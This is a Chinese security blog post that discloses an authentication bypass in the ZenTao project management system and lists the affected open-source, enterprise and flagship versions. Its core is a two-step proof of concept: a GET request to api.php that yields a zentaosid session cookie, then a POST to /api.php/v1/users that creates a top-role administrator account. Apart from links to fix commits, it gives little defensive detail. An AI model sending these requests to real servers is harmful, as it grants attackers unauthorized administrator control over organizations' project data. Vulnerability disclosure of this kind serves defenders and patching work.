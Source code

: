 #  N/A｜禅道项目管理系统身份认证绕过漏洞（POC）   
alicy  信安百科   2024-05-01 20:59  
  
**0x00 前言**  
  
****  
禅道是由青岛易软天创网络科技有限公司开发的开源项目管理软件，基于敏捷和CMMI管理理念进行设计，集产品管理、项目管理、质量管理、文档管理、组织管理和事务管理于一体，完整覆盖研发项目管理的核心流程。  
  
  
  
**0x01 漏洞描述**  
  
****> 禅道项目管理系统存在身份认证绕过漏洞，远程攻击者利用该漏洞可以绕过身份认证，调用任意API接口并修改管理员用户的密码，并以管理员用户登录该系统。  
  
  
  
  
  
**0x02 CVE编号**  
  
  
无  
  
  
  
**0x03 影响版本**  
  
  
v16.x<=禅道< v18.12（开源版）  
  
v6.x<=禅道< v8.12（企业版）  
  
v3.x<=禅道< v4.12（旗舰版）  
  
  
  
**0x04 漏洞详情**  
  
****  
POC：  
  
获取  
zentaosid的值  
```
GET /zentao/api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=upkbbehwgfscwizoglpw&branch=zqbcsfncxlpopmrvchsu HTTP/1.1
Host: you-ip
```  
  
‍  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urkUWohlvXmWLdpicDd05lAaD7jQQv7LVObciaIbmLcSw16gZWiaZKSro4Q5BsFhlGpGHJk9DtHD6IFQ/640?wx_fmt=png&from=appmsg "")  
  
  
添加用户：  
```
POST /zentao/api.php/v1/users HTTP/1.1
Cookie: zentaosid=xxxxxxxxxx
Host: you-ip

{"account": "zxczxc123", "password": "admin@123", "realname": "zxczxc123", "role": "top", "group": "1"}
```  
  
返回403也可以登陆。  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/easysoft/zentaopms  
  
  
https://github.com/easysoft/zentaopms/commit/d13ba70016ca981b08f27e08fb934bf1f23a4135  
  
  
https://github.com/easysoft/zentaopms/commit/695055c6b1d2e6a8c944bdbc38308c06820c40ce  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-21007｜WebLogic 远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485230&idx=1&sn=f2dc70906cf7d43bb91d8e61599b879d&chksm=cea96ef7f9dee7e1ebae59ba13ad4337d411ee916a085a5bc1e21df541092076626e49c3d0f8&scene=21#wechat_redirect)  
  
  
  
[N/A｜kkFileView 任意文件上传导致远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485230&idx=2&sn=1a7e2db8d66b6d96c04e806ca38f1735&chksm=cea96ef7f9dee7e1839fbeb90b3eea0137949aea556a4dc585e9876a7171841b7792614d737d&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-3400｜Palo Alto Networks PAN-OS 命令注入漏洞](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485179&idx=1&sn=484e7b82698441e1fb1d962c2c49e823&chksm=cea96f22f9dee6343278e915b81c8c64f5b982f2274788232e51906549b639316211cdd3f127&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
